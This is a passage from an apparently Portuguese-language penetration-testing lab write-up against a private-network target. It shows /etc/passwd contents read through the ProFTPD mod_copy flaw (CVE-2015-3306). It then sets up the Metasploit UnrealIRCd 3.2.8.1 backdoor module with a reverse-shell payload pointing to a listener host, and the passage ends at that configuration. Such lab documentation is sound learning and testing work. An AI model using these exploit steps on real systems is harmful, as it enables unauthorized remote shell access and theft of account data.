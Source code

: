 ```
jabba_hutt:x:1122:100::/home/jabba_hutt:/bin/bash
greedo:x:1123:100::/home/greedo:/bin/bash
chewbacca:x:1124:100::/home/chewbacca:/bin/bash
kylo_ren:x:1125:100::/home/kylo_ren:/bin/bash
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
avahi:x:107:114:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
colord:x:108:116:colord colour management daemon,,,:/var/lib/colord:/bin/false
```

**Referências**

- MITRE – CVE-2015-3306: https://www.cve.org/CVERecord?id=CVE-2015-3306

- Rapid7 – Módulo do Exploit: https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/

- [Detalhamento](/doc/proftp.md)


### UnrealIRCd

Para obter acesso inicial à máquina alvo por meio do serviço IRC, exploramos a backdoor presente no UnrealIRCd (versão 3.2.8.1) utilizando o módulo do Metasploit `exploit/unix/irc/unreal_ircd_3281_backdoor`. Essa vulnerabilidade permite a execução de comandos arbitrários via a conexão IRC, possibilitando a abertura de uma shell com privilégios superiores.

**Configuração do Módulo**  


```console
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.0.207    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   6697             yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.156    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```
